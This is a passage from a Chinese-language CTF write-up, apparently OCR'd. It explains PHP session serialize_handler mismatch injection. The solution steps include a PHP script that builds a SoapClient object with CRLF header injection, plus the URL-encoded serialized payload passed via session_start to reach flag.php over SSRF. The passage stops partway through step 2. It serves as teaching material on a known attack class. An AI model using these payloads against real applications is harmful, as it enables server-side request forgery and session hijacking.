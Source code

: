 配置选项 `session.serialize_handler`，通过该选项可以设置序列化及反序列化时使用的处理器。
如果PHP在反序列化存储的`$_SEESION`数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的伪造，甚至可以伪造任意数据。

当存储是`php_serialize`处理，然后调用时php去处理，如果这时注入的数据时`a=|O:4:"test":0:{}`，那么session中的内容是`a:1:{s:1:"a";s:16:"|O:4:"test":0:{}";}`，那么`a:1:{s:1:"a";s:16:"`会被php解析成键名，后面就是一个test对象的注入。

正好我们一开始的`call_user_func`还没用，可以构造`session_start(['serialize_handler'=>'php_serialize'])`达到注入的效果。

##### 解题步骤

1. 写入session
    ```php
    <?php
    $target = "http://127.0.0.1/flag.php";
    $attack = new SoapClient(null, array(
        'location' => $target,
        'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=817olmp68ukmnofc2mlp762ql0\r\n",
        'uri' => "123"
    ));
    $payload = urlencode(serialize($attack));
    echo $payload;
    ```

    生成payload，然后在前面加个|
    ```uri
    ?name=|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3D817olmp68ukmnofc2mlp762ql0%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D&f=session_start

    POST:
    serialize_handler=php_serialize
    ```
2. 触发反序列化使SoapClient发送请求
    ```uri

